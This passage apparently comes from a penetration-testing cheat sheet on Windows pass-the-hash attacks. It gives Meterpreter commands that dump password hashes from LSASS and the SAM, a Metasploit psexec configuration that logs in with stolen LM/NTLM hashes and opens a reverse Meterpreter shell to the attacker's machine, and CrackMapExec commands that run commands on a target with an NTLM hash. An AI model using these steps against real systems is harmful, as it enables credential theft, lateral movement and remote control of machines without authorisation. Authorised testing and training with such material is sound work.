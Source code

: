 ```bash
migrate <LSASS_PID>
load kiwi
lsa_dump_sam
```

### Using psexec Module for PtH

```bash
# Background current session
background

# Use psexec module
use exploit/windows/smb/psexec
set RHOSTS <target_ip>
set SMBUser Administrator
set SMBPass <LM_hash>:<NTLM_hash>
set payload windows/x64/meterpreter/reverse_tcp
set LHOST <your_ip>
set LPORT 4433  # Different port to avoid conflicts
exploit
```

### Alternative psexec Configuration

```bash
# If standard method fails, try different targets
set target 1  # Native upload
# or
set target 2  # PowerShell

# Show available targets
show targets
```

## CrackMapExec Approach

### Basic PtH with CrackMapExec

```bash
# Syntax
crackmapexec smb <target_ip> -u <username> -H <ntlm_hash> -x <command>

# Example with administrator hash
crackmapexec smb 192.168.1.100 -u Administrator -H 32ED87BDB5FDC5E9CBA88547376818D4 -x "whoami"

# Execute multiple commands
crackmapexec smb 192.168.1.100 -u Administrator -H <hash> -x "ipconfig"
crackmapexec smb 192.168.1.100 -u Administrator -H <hash> -x "systeminfo"
crackmapexec smb 192.168.1.100 -u Administrator -H <hash> -x "net user"
```

### Advanced CrackMapExec Usage

